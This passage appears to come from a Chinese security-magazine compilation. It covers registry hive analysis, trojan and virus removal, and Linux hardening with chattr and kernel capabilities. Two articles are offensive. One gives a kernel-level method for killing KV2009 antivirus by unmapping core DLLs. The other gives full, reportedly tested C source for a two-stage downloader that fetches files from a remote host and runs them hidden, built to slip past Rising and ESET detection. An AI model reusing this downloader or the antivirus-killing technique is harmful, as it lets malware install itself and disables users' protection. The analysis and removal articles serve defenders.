nt!_CM_KEY_INDEX
 +0x000 Signature : Uint2B
 +0x002 Count     : Uint2B
 +0x004 List      : [1] Uint4B
```

图8

CM_BIG_DATA 结构如图9所示。

```text
kd> dt _cm_big_data
nt!_CM_BIG_DATA
 +0x000 Signature : Uint2B
 +0x002 Count     : Uint2B
 +0x004 List      : Uint4B
```

图9

另外，在图5的 CM_KEY_NODE 结构中提到了一个 CM_KEY_REFERENCE，如图10所示。

```text
kd> dt _cm_key_reference
nt!_CM_KEY_REFERENCE
 +0x000 KeyCell : Uint4B
 +0x004 KeyHive : Ptr32 _HHIVE
```

图10

在图7的 CM_KEY_SECURITY 结构中有个 SECURITY_DESCRIPTOR_RELATIVE 结构，我们也一并来看一下，如图11所示。


图11

以上我们已经讲解了一些重要的 CELL 数据中的结构，其余的结构已不是最重要的了，我们就不再赘述了。下面我们直接进行文件的分析。

#### 文件的分析

现在我们对照上面说明的数据结构来实战地分析一下文件，对掌握 Hive 格式以及注册表的存储格式有很大的帮助。同时，不要忘了我们的本意是看这个文件具备什么样的功能，说白了，就是它想干嘛。

用 WinHex 调入待分析的文件，HBIN 从 0x1000 开始，有“hbin”字符串为标志。首先来看看 0x1024 处的 CM_KEY_NODE，如图12所示。


图12

从图中我们可以得出，这个键名叫“gogo”（位置在 0x1024+0x4c=0x1070），长度为 4 个字节（位置在 0x1024+0x48=0x106c），子键列表的偏移在 0x638 处（即是 0x1000+0x638=0x1638 处，位置在 0x1024+0x1c=0x1040），子键数量为 2（位置在 0x1024+0x14=0x1038）。所以，我们的子键列表在 0x1638，从 0x1638+0x4=0x163c 开始是一个 CM_KEY_INDEX 结构，如图13所示。


图13

从图中可以看出，CM_KEY_INDEX 的标志是“lf”，后面紧跟着就是子键的个数 2，这和前面是一致的。这里对标志有个说明，如果标志为“CM_KEY_FAST_LEAF”或者“CM_KEY_HASH_LEAF”，那么后面的内容将是“键位置、键 hash”。对照图，可以发现第1个子键的偏移在 0x1290 处，Hash 值为 0x61726150；第2个子键的偏移在 0x1498 处，Hash 值为 0x75636553。

接下来，我们先看看 0x1290 的子键信息，如图14所示。比较一下图12和图14，在签名位后面的两个字节是标志位，如果标志位的值是 0x2c，则表示这个 0x28 处的偏移是子键列表的偏移；如果标志位的值是 0x20，则表示这个 0x28 处的偏移是子键下的值的列表。如图14中反映出这样的信息：这个子键是 gogo 键下的 Parameters，它有两个值，值的列表指向 0x1000+0x478=0x1478。


图14

接着我们来看看 0x1478 处值列表的内容，如图15所示。从图中可以反映出，值名长度为 0x14，值名为“serviceDll”，值的位置在 0x1000+0x1e8=0x11e8 处。在第2个值名为“ServiceDllUnloadOnStop”中，DataLength 最高位为 1，那么它就是数据，且 DataLength&0x7fffffff 为数据长度。


图15

我们还是接着看这两个值偏移处的内容，如图16所示。


图16

现在来看一下 0x1000+0x1e8=0x11e8 处的值的内容，如图17所示。看到没有，原来 ServiceDll 是“kkkkk.dll”。


图17

看清楚了没有，第1个键就是这样加入的。为了节省篇幅，对第2个键就不描述了，大家可以参照上面的方法实践一下。最后结果如图18所示。


图18


图19

应该说，通过对这个文件的分析，我们大致能知道这个文件主要是通过注册表来添加服务启动程序的，以“svchost.exe -k netsvcs”来启动 DLL 文件，如图19所示。

综观对 Hive 的学习分析，里面的各种格式、分别计算键、值、安全描述符、子键或者一列键值，着实让人头晕目眩。在这一过程中确实有一种让人抓狂的感觉，只有不断地坚持、坚持、再坚持，才能取得成功。在行文期间，得到了 sudami、小华子等人的热情帮助，在这里一并感谢。


- 前置知识：无  
- 关键词：Ring0、KV2009、Hook

## Ring0下结束KV2009

文/图 syf

看了《再谈PspTerminateProcess及其简单实现》一文后，收获不少，文中提到 PspTerminateProcess，但发现此方法对 KV2009 无效。KV2009 在宣传中说自己的自我保护是“金钟罩”，大多数 ARK 都无法结束，但难免有“罩门”，今天我们就来谈一谈在 Ring0 下如何结束 KV2009。

### KV2009进程保护

启动 KV2009 后，很多 ARK 会无法使用，所以这里我们要用到 Windbg。首先启动本地内核调试，输入命令“!chkimg -lo 100 -d !nt”（不含引号）来查看 Inline Hook，得到如下结果：

```text
!chkimg -lo 100 -d !nt
804df7c8-804df7cc 5 bytes - nt!KiFastCallEntry+d4
[ 8b 5f 0c 33 c9 e9 5b 20 ac 01 ]
804df7d5-804df7d9 5 bytes - nt!KiFastCallEntry+e1
...
804e2756-804e2759 4 bytes - nt!KiTrap0E+10a
```

### 结束KV2009进程

```text
[e8 f7 44 80 21 7a 81 ef]
804e637b-804e637f 5 bytes - nt!KiInsertQueueApc+2(+0x3c25)
[55 8b ec 51 8b e9 c0 cd 48 7f]
804e6413-804e6417 5 bytes - nt!KeInsertQueueApc+2(+0x98)
[55 8b ec 83 ec e9 70 0e 34 7f]
80565dc1-80565dc5 5 bytes - nt!ObpCreateHandle+2
[55 8b ec 83 ec e9 6a 50 ad 01]
8056cf7f-8056cf83 5 bytes - nt!ObOpenObjectByPointer(+0x559a)
[8b ff 55 8b ec e9 cc 3f a6 7c]
8057c0c4-8057c0c9 6 bytes - nt!PspTerminateThreadByPointer+2(+0xf145)
[55 8b ec 83 ec 0c 68 90 ae 03 82 c3]
805e166d-805e1672 6 bytes - nt!PsSuspendThread(+0x655a9)
[6a 18 68 88 92 51 68 60 23 1e 82 c3]
```

MiUnmapViewOfSection 未导出，需要定位，在不同版本下需要不同的代码，比较麻烦。VXK 在很久以前说过用 MmUnmapViewOfSection 来实现，MmUnmapViewOfSection 只是作为一个函数——就是为了调用 MiUnmapViewOfSection。

```text
lkd> u MmUnmapViewOfSection l60
nt!MmUnmapViewOfSection:
80573588 8bff            mov edi,edi
8057358a 55              push ebp
8057358b 8bec            mov ebp,esp
8057358d 6a00            push 0
8057358f ff750c          push dword ptr [ebp+0Ch]
80573592 ff7508          push dword ptr [ebp+8]
...
80573595 e8a3560000      call nt!MiUnmapViewOfSection (80578c3d)
// 调用之处
8057359a 5d              pop ebp
8057359b c20800          ret 8
8057359e 90              nop
8057359f 90              nop
805735a0 90              nop
805735a1 90              nop
805735a2 90              nop
```

PspTerminateProcess 最终会调用到 PspTerminateThreadByPointer，而 PspTerminateThreadByPointer 已被 Hook，所以不会成功。

```text
lkd> u pspterminateprocess l55
nt!PspTerminateProcess:
...
8062e9cc e8f1d6f47f call nt!PspTerminateThreadByPointer (8057c0c2)
// 调用PspTerminateThreadByPointer
```

MmUnmapViewOfSection 的原型如下：

```c
MmUnmapViewOfSection(
  IN PEPROCESS Process,
  IN ULONG DLLBaseAddress
)
```

Hook PsSuspendThread 的目的是防止冻结进程（NtSuspendProcess 会调用 PsSuspendThread）；Hook ObOpenObjectByPointer 的目的则是防止 NtOpenProcess/NtOpenThread；Hook KiInsertQueueApc 和 KeInsertQueueApc 是为了防止别人插 APC 来结束进程（笔者注：本人曾经试过恢复钩子结束，但 KV 每 10ms 会检查一次是否有钩子，如果没有，则 Hook 之，所以恢复钩子结束进程是不可行的）。

我们可以在驱动中直接调用。至于 DLLBaseAddress，我们可以在 Ring3 下调用 GetModuleHandleA（一个重要的 DLL，比如 Ntdll.dll、Kernel32.dll、user32.dll）得到。在 Windows XP 下可以用硬编码，Ntdll 是 2089943040，kernel32 是 2088763392，user32 是 2010185728。

### 结束KV2009进程

根据上文不难发现，KV2009 的内核钩子很全面。在每一个进程中，有几个很重要的 DLL，我们可以通过卸载这些 DLL 来结束进程。UnloadDll 最好的选择是 MiUnmapViewOfSection（冰刃的强制卸载 DLL 的方法），但……

所以，最终的结果就是调用 MmUnmapViewOfSection（KV2009 的一个进程的 EPROCESS，DLL 的地址）来结束 KV2009。本文仅仅是通过分析 KV2009 没有 Hook 到的 API 结束之，但只要 KV 以后对 MiUnmapViewOfSection 进行 Hook，该方法即告失效，希望 KV 能早日完善。同时本文中提到的杀 KV2009 的方法也可以杀其他进程。

- 前置知识：无
- 关键词：木马、SRENG、进程嵌入

### 进程嵌入式木马的分析及查杀

文／冯天树


在不用 Baidu、Google 的前提下，自己独立分析木马的行为，清除计算机里可能的木马，是本文将要讨论的问题。主要是用 SRENG 比较分析，然后给出在查杀有进程保护和进程查杀的木马的过程中，给出保护进程的追踪和嵌入进程的追踪以及木马查杀的方法。

### 上兴2007木马的行为分析和清除

本文的实验环境为 Windows XP SP2 和虚拟机 Windows XP SP2 系统。

在干净的虚拟机里用 SRENG 扫描系统，保存扫描日志为 log1。在真实机里按默认配置设置好上兴服务端，拉到虚拟机里，双机执行上兴服务端程序。再用 SRENG 扫描虚拟机，保存扫描日志为 log2。将虚拟机的 log1 和 log2 拉到真实机里，用 Ultracompare 或别的比较软件进行比较，得到上兴的行为特征，看 log2 比 log1 增加了哪些内容，如图1、图2和图3所示。


图2


图3

可以看出，感染上兴木马后的操作系统新出现的特征如下。

- （1）系统被添加了新的服务，提供服务的文件位置在“C:\program files\common files\Microsoft shared\Msinfo\rejoice45.exe”，这就是木马文件的位置。
- （2）病毒运行后系统增加了进程“lexplore.exe、calc.exe”。

之后进入虚拟机，按照图4修改 Windows 设置，然后在 C 盘中搜索 rejoice45.exe 文件。结果会发现，删除 C:\winnt\system32 下的 _rejoice45.exe 会被拒绝；C:\program files\common files\Microsoft shared\Msinfo\ 下的 rejoice45.exe 可以删除，但删除后再重新搜索 rejoice，此目录下的 rejoice45.exe 又重新出现。删不掉，说明程序正在运行；删掉了重新出现，说明有保护进程重新生成木马程序。

打开任务管理器，查看木马进程和保护进程 lexplore.exe、calc.exe，尝试分别删除进程，删掉后又重新出现，说明有相互保护的进程存在。


图1


图4

在任务管理器里，右键选择木马嵌入的进程，再选“结束进程树”，然后“马上”去删除保护进程 calc 的进程树，之后就可以删除搜索到的木马文件和保护文件 rejoice45.exe 与 _rejoice45.exe 了。如图5所示。


图5

最后再用命令“instsrv windows_rejoice2007_45 remove”删除服务，木马就被彻底清除了。

#### 进程嵌入木马查杀

如果上兴木马不是按照默认选项进行的配置，比如修改了安装名字与安装路径，修改了木马嵌入的进程文件，保护文件嵌入的进程也被修改了，服务名称也被修改了，等等，该怎么分析查杀木马呢？

情况1：如果木马文件名被改了，服务名称被改了。同上面的方法，我们用 SRENG 可以比较出启动服务的木马文件是哪个，比如服务启动的木马文件是 123.exe，然后在 C 盘搜索木马文件可以搜索到保护文件 _123.exe。

要怎么找到木马文件和保护文件嵌入到哪个进程里、以哪个进程在运行呢？虽然 SRENG 可以看到新加的进程，但木马和保护到底分别对应哪个进程呢？这是我们现在要说的问题。解决的方法是利用工具 unlocker。

图6显示追踪出木马的保护文件 _123.exe 嵌入了哪个进程在运行：mspaint.exe。方法为鼠标右键点击搜索到的 _123.exe，再点 unlocker 即可。用同样的方法可侦测出 123.exe 嵌入哪个进程在运行。


图6

知道了木马文件、保护文件，以及分别嵌入的进程，再删除进程、木马及保护文件，同前面的过程。和前面略有不同的是，我们可直接用 unlocker 删除。首先点击进程解锁，删除进程，再删除木马文件。

另外说一下在有保护进程的情况下删进程的方法：使用冰刃。禁止保护进程创建木马子进程（木马运行的进程假设是 123.exe）的方法为：点击 file > create process rule > create process rule > add cp rule。我们的目标是禁止进程创建子进程，因此选择 forbid 选项，在 child process 处填写禁止创建的文件名即可，如图7所示。


图7

删除进程了。

情况2：假设木马的保护文件和木马文件不同，只能搜索到木马文件，不知道保护文件，更不知道保护文件嵌入的进程，此时该怎么办呢？

换句话说，我们删了木马嵌入的进程，一会后进程又重新产生了，但不知道哪个进程重新产生了木马进程，我们怎么知道进程是哪个呢？如图10所示。


图8


图10

再点击“开始→控制面板→管理工具→事件查看器→安全性”，双击审核的事件，如图11所示。当我们在任务管理器里删除木马运行的进程后，观察事件查看器发生了什么，就能找到重新产生木马进程的进程了。


图9


图11

如果对比任务管理器中的进程，用 Process Explorer 对比会发现：木马进程和保护进程的父进程，都指向同一个不存在的进程，如图8和图9所示。

用这种方法证明两个进程是相互保护的，有点牵强。当我们删掉一个进程，等会又重新产生，怎么知道被删进程是哪个进程产生的呢？下面给出解决的办法。

单击“开始→控制面板→管理工具→本地安全设置策略→本地策略→审核策略→审核过程追踪”，勾选“成功”与“失败”复选项。

最后给大家提一个问题：假设知道木马 a.exe 进程嵌入到 b.exe，在任务管理器或别的进程查看器里看到的是 b.exe 在运行，怎么反过来查出 b.exe 实际运行的是什么程序呢？

#### 总结

本文以使用 sreng 分析上兴木马为例，给出了用比较法分析未知木马行为的例子，展示了手工查杀进程嵌入木马（或病毒）过程中遇到的问题及解决这些问题的方法。

前置知识：VC

关键词：编程、下载者、主动防御


### 另类下载者绕杀软突破
### 瑞星2010主动防御 ESET 高启发

文/JKS/闪亮的心

随着2010年的临近，各大杀毒软件公司都陆续推出了自己最新的杀毒软件，启发式杀毒以及主动防御被广泛地应用到了新版的杀毒软件中。下载者由于调用函数单一，生成代码简单，在突破启发式杀毒和主动防御方面有着极大的困难。本文介绍一种另类的技术，利用下载者突破当今大部分主流杀毒软件。

作为一个下载者，必须具有两个最核心的功能模块，一个是下载文件，另外一个是执行文件。通常情况下，是通过 URLDownloadToFile 和 ShellExecute 这两个函数或者相关函数来完成其功能的。以往的绕过办法，一般是在 URLDownloadToFile 上做文章，要么用 Wininet 库函数来实现，复杂一点则是通过 Winsocket 来实现。

对于高启发杀毒来说，其核心在于病毒库中的函数复合特征码，通俗点说就是函数组合，比如 ESET，其函数组合是最丰富的。这也是为什么在无壳无反调试代码下，使一个后门程序通过 ESET 的高启发是件非常困难的事情。比如前面提到的两个函数，只要出现在同一个 PE 文件里，那么这个 PE 文件必然会被 ESET 列为 DownLoader。对于主动防御也一样，只要一个 PE 文件先执行了 URLDownloadToFile，那么只要其后运行 ShellExecute 这类功能的函数，必然会进行拦截。那么，假设我们把这两个函数封装在两个 PE 文件中，接着分步执行它们，是不是可以绕过杀毒软件的启发杀毒和主动防御呢？后来的测试证明了我的这些想法。

对于 PE 文件来说，其是微软并未公开的可执行文件格式（Portable Executable，PE）的简称，通常我们所说的 EXE、DLL、SYS 等文件都属于 PE 文件的范畴。这里要简单说下 Windows 程序的运行原理，我们把一个 EXE 程序看成一个地址空间，一个单独的地址空间是由一个可执行模块和若干个 DLL 模块组成的，其中的一些模块是可以连接到静态的 C/C++ 运行时库，但是 DLL 还能做到根本不需要 C/C++ 运行时库而存在于一个单一的地址空间中。也就是说我们可以使一个 EXE 先完成下载文件的功能，然后写一个 DLL 文件，这个 DLL 文件运行在一个单一的地址空间中，让这个 DLL 文件来执行 EXE 下载的文件，这样既能过高启发，也能过绝大多数的主动防御。下来我们来看看 DllMain 函数，原型如下：

```c
BOOL WINAPI DllMain(
    HANDLE hinstDLL,
    DWORD  dwReason,
    LPVOID lpvReserved
);
```

DllMain 函数是 DLL 文件的入口点函数，相当于 EXE 的 main 函数，很多人在使用的时候也仅仅是把它当作 Main 函数来使用，但是 DllMain 函数的第 2 个参数非常特别，可以被我们用来做很多事情。

DLL_PROCESS_ATTACH 是说当 DLL 被某进程加载到内存空间时，来启动相关代码，这就意味着一旦 DLL 被加载到一个内存空间中，那么系统就会给这个 DLL 文件分配一个单一的地址空间来使其运行，那么对于两个地址空间的代码，杀毒软件是不会关联查杀的，这样很有可能出现大量误报。而加载一个 DLL，只需要 LoadLibrary 即可。那么代码就变得非常好写了，主要代码如下：

```c
int main(int argc, char* argv[])
{
    Char DownURL[255] = "http://www.domain.com/test.dll";
    // 由于释放文件可能会触发某些杀软的主动防御，因此DLL文件也通过下载的方式写入
    Char ExeURL[255] = "http://www.domain.com/test.exe";
    Char DllPath[255];
    Char ExePath[255];
    GetWindowsDirectory(DllPath, sizeof(DllPath));
    GetWindowsDirectory(ExePath, sizeof(ExePath));
    strcat(DllPath, "\\system32\\test1.dll");
    strcat(ExePath, "\\system32\\test2.dll");

    URLDownloadToFile(0, DownURL, DllPath, 0, NULL);
    Sleep(2000);
    while(true){
        if(FileIsExist(DllPath) == true) break;
        else Sleep(1000);
    }

    URLDownloadToFile(0, ExeURL, ExePath, 0, NULL);
    Sleep(2000);
    while(true){
        if(FileIsExist(ExePath) == true) break;
        else Sleep(1000);
    }

    LoadLibrary(DllPath);
    // 加载下载到的DLL文件
}
```

这样我们就完成了下载文件的步骤，只单纯下载文件，杀毒软件显然是不会报警的。接着完成我们的 DLL 文件，主要代码如下：

```c
BOOL APIENTRY DllMain(HANDLE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved)
{
    switch(ul_reason_for_call){
    case DLL_PROCESS_ATTACH:
        // 一旦DLL被加载到内存中，则启动工作线程
        DWORD ThreadId;
        CreateThread(NULL, NULL, MainThread, NULL, NULL, &ThreadId);
        break;
    default:
        break;
    }
    return TRUE;
}

DWORD WINAPI MainThread(LPVOID lpParameter)
{
    char MovePath[255];
    char InstallPath[255];
    GetWindowsDirectory(MovePath, sizeof(MovePath));
    GetWindowsDirectory(InstallPath, sizeof(InstallPath));
    strcat(InstallPath, "\\system32\\test.exe");
    strcat(MovePath, "\\system32\\test2.dll");
    // 这里要把下载的EXE文件重命名为EXE文件（原先是DLL）
    rename(MovePath, InstallPath);
    Sleep(3000);
    ShellExecute(NULL, "open", InstallPath, NULL, NULL, SW_HIDE);
    // 执行下载的EXE文件
    return 0;
}
```

总之，只要计算机在不具备人工智能的情况下，就只会按照某种规则执行程序，所以要突破一款杀软，只要深入了解规则，必然能找到突破的方法，这就是黑客的精神——不被规则所束缚。

本文所述代码经测试，可过最新瑞星2010主动防御、ESET 4.0 启发式杀毒及江民主动防御。（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

---

前置知识：无

关键词：SRENG，regshot，filemon，ollydbg，SSM


### 计算机病毒
#### 行为特征分析

文／冯天树

对于已知的或未知的计算机病毒，如何在不研究病毒汇编代码的前提下，分析出病毒的全部行为特征，是反计算机病毒的一个研究课题。虚拟 CPU 执行技术和软件行为分析技术，在国内学术界处于刚起步阶段。本文以 xiaohao 病毒样本为例，用实验的方法总结了各种计算机病毒样本分析的方法。

本文的实验环境为一台运行 Windows XP 的主机，运行 Windows XP 的 Vmware4 虚拟机。开始之前先把干净虚拟机快照保存，每次对病毒样本分析后，再还原成干净系统。

目前计算机病毒样本的各种分析方法主要有：SRENG 分析比较、注册表快照比较、端口通信比较，如果有通信还要进行 TcpView 观察，甚至要 Sniffer 抓取数据包进行分析；Filemon 观察病毒的文件操作；OllyDBG 字符串分析；SSM 病毒行为动态观察等。


图1

#### 计算机病毒分析过程

- 1. **SRENG 分析病毒样本静态特征**

在干净虚拟机里，用 SRENG 获取病毒执行前的干净系统诊断报告，如图1所示。之后在虚拟机里运行病毒样本，对运行病毒后的虚拟机用 SRENG 获取系统诊断报告，再用 UltraEdit 比较两次的诊断日志，获取病毒的静态特征。在 UltraCompare 里可以找到病毒文件的位置和名称，搜索病毒文件，找到病毒文件。

最终可以发现系统启动项下多了 explore.exe 选项，进程中多了 xiaohao.exe 进程，C 盘下出现了 autorun.inf 文件，在 C 盘根区下可以搜索到 xiaohao.exe 文件。

- 2. **注册表快照比较**

首先还原虚拟机的操作系统，在干净虚拟机里运行 regshot，点击快照 A 生成快照。之后在虚拟机里运行病毒样本，运行 regshot，点击快照 B 生成快照，获取病毒运行前后注册表的变化。再把比较的网页文件拉到真实机里进行比较，获取前后变化，如图3所示。


图2

- 3. **端口通信比较**

还原虚拟机操作系统，在干净虚拟机里进行端口通信对比分析。入 CMD 运行“netstat an > netstat1.txt”，把 netstat1.txt 拉到真实机里。在虚拟机里运行病毒样本，再进入 CMD 运行“netstat an > netstat2.txt”，把 netstat2.txt 拉到真实机里。

之后用 UltraEdit 比较 netstat1.txt 和 netstat2.txt，获取病毒的通信端口的变化，如图4所示。


图3


图4


图5


图6

如果 netstat 打开的通信端口有变化，可再用 TCPView 监视和外界通信的进程。如果还想监测病毒和外界通信的内容，可用抓包工具 CapExpert 或 Sniffer 抓包分析。本项目的病毒样本运行后用 netstat 查看，没有打开通信端口，故 TCPView、Sniffer 分析略去。当然，也有可能此时只是没有触发端口通信，处于隐藏状态，一旦条件满足，就会连接端口。

- 4. **Filemon 观察病毒运行时的文件操作**

还原虚拟机的操作系统，在虚拟机里运行 Filemon，设置过滤观察条件，清除屏幕，开始捕获文件事件，如图5所示。

运行病毒，过1分钟后，点击“file > save”，把捕获的事件保存，拉到真实机里研究分析，如图6所示。

尽管设置了过滤条件，信息量仍然巨大。分析 filemonlog 信息，看 xiaohao 有哪些文件操作，如图7所示，在 C 盘根区生成了 jilu.txt 文件。


图7

- 5. **OllyDBG 字符串分析**

还原虚拟机的操作系统，在虚拟机里运行 PEiD，查看病毒是否加壳，如加壳需先脱壳。结果确认此病毒样本未加壳，如图8所示。

在虚拟机里运行 OllyDBG，打开病毒样本。点击超级字符串参考，查看病毒汇编里有什么 ASCII 字符串，如图9和图10所示。

可以看到病毒生成了 autorun.inf 文件，在 C 盘下可找到；生成了 c:\\jilu.txt 文件；把注册表里显示隐藏文件选项修改为了不显示；添加了一个 iframe，网址为 http://xiaohao.yona.biz/xiaohao.htm，在 explore.exe 里插入了文件。


图8


图9


图10

- 6. **SSM 动态分析**

还原虚拟机操作系统，在虚拟机里安装 SSM，把系统已有的进程设置为受信任程序。之后运行病毒，分析其动作，如图11和图12所示。可以发现 Explore 运行了 xiaohao.exe 程序，xiaohao 程序打开了 iexplore，svchost 运行了 helpsvc.exe 文件。


图11


图12

- 7. **小结病毒行为特征**

总结前面的 6 个实验，我们可以归纳得到 xiaohao 病毒的特征有：病毒运行进程是 xiaohao.exe，病毒文件在 c:\\xiaohao.exe，没有保护进程；病毒启动方式是双击 C 盘或启动时通过 autorun.inf 启动运行；在 C 盘生成了 c:\\jilu.txt 文件；Windows 窗口标签变为含有标题“xI4o-H4o virus”；病毒自动启动 IE，试图连接 http://xiaohao.yona.biz/xiaohao.htm；删除当前打开的文件。

- 8. **搜索引擎检查**

把样本放到 http://virusscan.jotti.org/ 分析，然后在 Google、Baidu 中查找病毒的行为特征。

可能我的样本是简化版本，病毒特征比网上介绍的要少。如果网络分析说不是病毒，恭喜你：找到新病毒了。

之后我们就可以根据病毒特征进行杀毒了，将 xiaohao 进程结束，删掉 c:\\xiaohao 的隐藏文件，删掉 c:\\autorun.inf 文件，但被破坏的 EXE 文件可能就无法恢复了。

#### 总结

本文以 xiaohao.exe 计算机病毒样本为例，总结了计算机病毒样本分析的各步骤：SRENG 比较分析、注册表快照比较分析、端口通信比较分析、Filemon 观察病毒文件操作、OllyDBG 字符串分析、SSM 病毒行为动态观察等。病毒行为分析清楚了，查杀病毒就容易多了。

---

前置知识：Linux

关键词：网管、ext2、内核能力


### 利用 ext2 文件属性和 Linux 内核能力来加固系统

文／jilingshu

Linux 一直以安全性著称。系统管理员在加固系统时，往往会把注意力放到诸如 ACL、SELinux，甚至 snort 上，而忘记了最经典也是最有效的 ext2 文件属性。这里所谓的文件属性，并非 666、755 等用于权限控制的属性，而是 ext2 文件系统对一些文件和目录设置的额外标记。ext2 属性和我们熟悉的 Unix 属性并不冲突，它可以有力地保障系统的安全。

#### ext2 文件属性介绍

- ext2 文件系统支持的属性有以下几种。
- **A: Atime**。不要修改对这个文件的最后访问时间。
- **S: Sync**。一旦应用程序对这个文件执行了写操作，立刻把修改结果写入磁盘。
- **a: Append Only**。只允许在这个文件之后追加数据，不允许任何进程覆盖或者截断这个文件。如果目录具有这个属性，系统将只允许在这个目录下建立和修改文件，而不允许删除文件。
- **i: Immutable**。不允许对这个文件进行任何修改。如果目录具有这个属性，那么任何进程只能修改目录之下的文件，不允许建立和删除文件。
- **d: No dump**。在进行文件系统备份时，dump 程序将忽略这个文件。
- **c: Compress**。系统以透明方式压缩这个文件。从文件读取时，返回的是解压之后的数据；而向这个文件中写入数据时，数据首先被压缩，然后再写入磁盘。
- **s: Secure Delete**。在删除这个文件时，使用 0 填充文件所在的区域。
- **u: Undelete**。当一个应用程序请求删除这个文件时，系统会保留其数据块以便以后能够恢复这个文件。

系统内核对 ext2 文件属性的支持情况如表所示。

| 属性 | 1.0 | 1.2 | 2.0 | 2.2 | 2.4 |
|---|---|---|---|---|---|
| A | - | - | + | + | + |
| S | + | + | + | + | + |
| a | - | + | + | + | + |
| i | - | + | + | + | + |
| d | - | + | + | + | + |
| c | ? | ? | ? | ? | ? |
| s | + | + | ? | ? | ? |
| u | ? | ? | ? | ? | ? |

其中，“-”代表无效，“+”代表有效，“?”代表允许设置这个标志，但是值会被忽略。ext2 文件属性不会被标准的 ls 命令列出，应当使用 e2progs 工具包中的 lsattr 命令。

```bash
[root@localhost lcap-0.0.6]# lsattr
------------- ./Makefile
------------- ./COPYING
```

```text
------------- /lcap.spec
------------- /INSTALL
------------- /lcap.8
------------- /README
------------- /lcap.c
```

设置则应该使用 `chattr`。`chattr +i test.sh` 含义为对 test.sh 设置 i 属性；`chattr -i test.sh` 含义为去除 test.sh 的 i 属性；`chattr =i test.sh` 则是去除 test.sh 的所有属性，然后加上 i 属性。

#### 需要设置属性的文件

对于已经配置好，并且不需要安装新软件的系统来说，应当执行如下命令：

```bash
chattr +i /bin /sbin /root /etc /lib /bin /usr
```

除此之外，“/usr”目录如果使用单独的磁盘分区的话，还应该在 `/etc/fstab` 中添加 `ro` 选项，以只读模式挂载。

安装软件时，至少应去除 `/bin`、`/sbin`、`/usr/bin`、`/usr/sbin`、`/usr/man`、`/usr/local`、`/lib`、`/etc` 的属性，否则会导致写入失败。查看一个 rpm 包需要修改哪些文件时，可以使用 `rpm -qpl XXX.rpm`。

在对用户和组进行修改时，应当去除 `/etc/passwd`、`/etc/shadow`、`/etc/group` 的属性。另外，因为 `passwd`、`chsh`、`useradd` 等命令在执行时会在 `/etc` 下建立原文件的拷贝，并对拷贝进行更改，然后再覆盖回去，因此需要去除 `/etc` 目录的属性。

对于 `/dev` 目录，不建议加上 i 属性。因为一些核心程序需要在开机时向这个目录进行写操作，如 `syslog`；`/tmp` 目录和 `/var` 一般不需要也不能设置 i 或 a 属性，否则系统将无法运行。对 `/var/log` 目录下的日志，可以考虑设置 a 属性，但这会导致 `syslogd` 的日志轮转无法进行。

Unix 系统把所有的权限都赋给了 Root 用户，其他用户只拥有极其有限的权限。因此对攻击者来说，获得 Root 权限几乎是必须的。这种把权限都集中到一个账户上的设计，尽管保证了非 Root 用户无法对操作系统造成危害，但也增加了 Root 的风险。Unix 的超级用户对普通用户信任模型是相当简单的，即以 Root 用户运行的进程什么都能做，以其他用户运行的进程什么都不能做。这并不符合最小权限原则。

一个程序只需要获得一个 raw socket 时，因为普通用户没有权限，必须以 Root 用户运行它，而它并不需要其他的 Root 权限，这就给系统造成了风险。Unix 文件权限对于 Root 也是完全没有约束力的，Root 会完全忽略它们。但 ext2 属性则不一样。ext2 属性是由 `sys_open()` 和 `sys_truncate()` 等系统调用检查和设置的，因此即使对 Root 用户也是有效的。

虽然 ext2 文件属性可以阻止对重要文件的写操作，但是对于有经验的攻击者来说，这只不过是一些小麻烦罢了。获取 Root 权限的攻击者只需要简单地执行 `chattr -i -a XXX` 就可以去掉这些属性，因此仅仅简单地设置 ext2 文件属性并不能保证系统的安全。

#### Linux 内核能力约束

在 Linux 内核 2.1 版以前，系统中存在一种叫做安全层（Secure Level）的部分，用于限制一些对系统有危害的操作。使用 `sysctl kernel.securelevel` 可以对安全层进行设定。当系统安全层大于 0 的时候，便会拒绝任何企图去除 i 属性的操作，即使是 Root 也不可以，这样便可以有效限制 Root 的权力。在 2.1 及以后版本的内核中，这一特性被更加强大灵活的内核能力特征（Kernel Capability）代替。

Linux 为每个进程保存了和能力相关的 3 个变量，即 Inheritable、Permitted 和 Effective。对应进程描述符（RHEL5 位于 `/usr/src/kernels/2.6.18-92.1.18.el5-i686/include/linux/capability.h`）中的 `cap_effective`、`cap_inheritable` 和 `cap_permitted`。每种能力占一个位，1 表示具有这种能力，0 表示没有。`cap_effective` 用于在进程需要某种能力时，操作系统会检查其对应的位是否为 1。`cap_permitted` 表示进程能够使用的能力。在 `cap_permitted` 中可以包含 `cap_effective` 中没有的能力，这些能力是被进程自己临时放弃的，比如 `chown` 会保留 `CAP_CHOWN` 而放弃其他能力，这样即使存在缺陷也不会导致严重的问题。

Linux 的内核能力定义可以在 `/usr/src/linux/include/linux/capability.h` 中查看，到目前为止，最新的内核已经实现的能力有：

```c
#define CAP_DAC_OVERRIDE 1
#define CAP_DAC_READ_SEARCH 2
#define CAP_FOWNER 3
#define CAP_FSETID 4
#define CAP_FS_MASK 0x1f
#define CAP_KILL 5
#define CAP_SETGID 6
#define CAP_SETUID 7
#define CAP_SETPCAP 8
#define CAP_NET_BIND_SERVICE 10
#define CAP_NET_BROADCAST 11
#define CAP_NET_ADMIN 12
#define CAP_NET_RAW 13
#define CAP_IPC_LOCK 14
#define CAP_IPC_OWNER 15
#define CAP_SYS_MODULE 16
#define CAP_SYS_RAWIO 17
#define CAP_SYS_CHROOT 18
#define CAP_SYS_PTRACE 19
#define CAP_SYS_PACCT 20
#define CAP_SYS_ADMIN 21
#define CAP_SYS_BOOT 22
#define CAP_SYS_NICE 23
#define CAP_SYS_RESOURCE 24
#define CAP_SYS_TIME 25
#define CAP_SYS_TTY_CONFIG 26
#define CAP_MKNOD 27
#define CAP_LEASE 28
#define CAP_AUDIT_WRITE 29
#define CAP_AUDIT_CONTROL 30
```

我们只需要去除内核的 CAP_LINUX_IMMUTABLE 能力，即可以实现阻止 Root 用户取消标志。Linux 通过“内核能力边界集”实现能力控制。边界集中有的能力整个系统都有，反之整个系统都没有这个能力，即使 Root 用户也一样。只有 Root 用户可以取消某种系统能力，只有 init 进程可以为系统添加能力。

我们可以在 `/proc/sys/kernel/cap-bound` 中查看系统拥有的能力，比如我们可以执行：

```bash
[root@localhost ~]# cat /proc/sys/kernel/cap-bound
-257
```

